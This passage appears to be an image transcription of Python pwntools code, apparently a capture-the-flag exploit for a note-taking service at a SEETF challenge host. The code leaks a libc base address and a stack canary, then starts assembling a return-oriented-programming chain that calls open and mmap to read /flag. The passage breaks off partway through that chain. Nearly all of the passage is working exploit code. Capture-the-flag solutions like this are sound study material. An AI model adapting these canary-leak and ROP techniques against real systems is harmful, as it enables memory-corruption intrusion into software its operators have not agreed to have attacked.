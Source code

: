 ```python
    p.sendlineafter(b"idx = ", str(idx).encode())
    p.sendlineafter(b"write = ", str(size).encode())
    if size < 0x1000:
        p.send(data)

def read(idx):
    p.sendlineafter(b"> ", b"3")
    p.sendlineafter(b"idx = ", str(idx).encode())
    return p.recvuntil(b"1. create note", drop=True)

context.binary = libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
p = remote("win.the.seetf.sg", 2000)
# p = remote("localhost", 1338)
# p = process("./chall")

for i in range(2):
    create()

prev = create()[1]
while True:
    id, next = create()
    if prev-next > 0x1000:
        break
    prev = next

chunk = next
libc.address = chunk+16384

log.info(f"chunk of {id} at {hex(chunk)}")
log.info(f"libc base @ {hex(libc.address)}")

write(id, 6000)
leak = read(id)
canary = u64(leak[-8:])

log.info(f"canary at {hex(canary)}")

fid, flag_addr = create()
write(fid, 0x5, "/flag")

pop_rax = libc.address + 0x45eb0
pop_rcx = libc.address + 0x8c6bb
pop_rsi = libc.address + 0x2be51
pop_rdi = libc.address + 0x2a3e5
pop_rdx = libc.address + 0x90529  # pop rdx ; pop rbx ; ret
pop_r8  = libc.address + 0x165b76 # pop r8 ; mov eax, 1 ; ret
syscall = libc.address + 0xec3a9

"""
   0x11ea36 <syscall+22>:       mov    r9,QWORD PTR [rsp+0x8]
   0x11ea3b <syscall+27>:       syscall
   0x11ea3d <syscall+29>:       cmp    rax,0xfffffffffffff001
   0x11ea43 <syscall+35>:       jae    0x11ea46 <syscall+38>
   0x11ea45 <syscall+37>:       ret
"""
set_r9  = libc.address + 0x11ea36

payload = fit({
    24: canary,
    40: # open("/flag", 0, 0)
        [pop_rax, 2] + [pop_rdi, flag_addr] + [pop_rsi, 0] + [pop_rdx, 0, 0] + [syscall] +
        # mmap(0x1337000, 0x1000, 3, 0x22, 3, 0)
        [pop_r8, 3] + [pop_rax, 2] + [pop_rdi, 0x1337000] + [pop_rsi, 0x1000] +
```